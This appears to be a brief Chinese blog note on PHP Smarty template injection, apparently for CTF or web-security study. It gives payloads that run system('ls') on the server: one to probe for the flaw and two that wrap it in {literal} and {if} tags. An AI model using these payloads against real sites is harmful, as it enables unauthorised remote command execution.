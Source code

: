 # PHP Smarty模版注入


### 判断
尝试{system(&#39;ls&#39;)}，看报错内容，一般会有提示

### 注入
使用标签
例
```
{literal}{system(&#39;ls&#39;)}{/literal}
{if}{system(&#39;ls&#39;)}{/if}
```

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-php-smarty%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/  

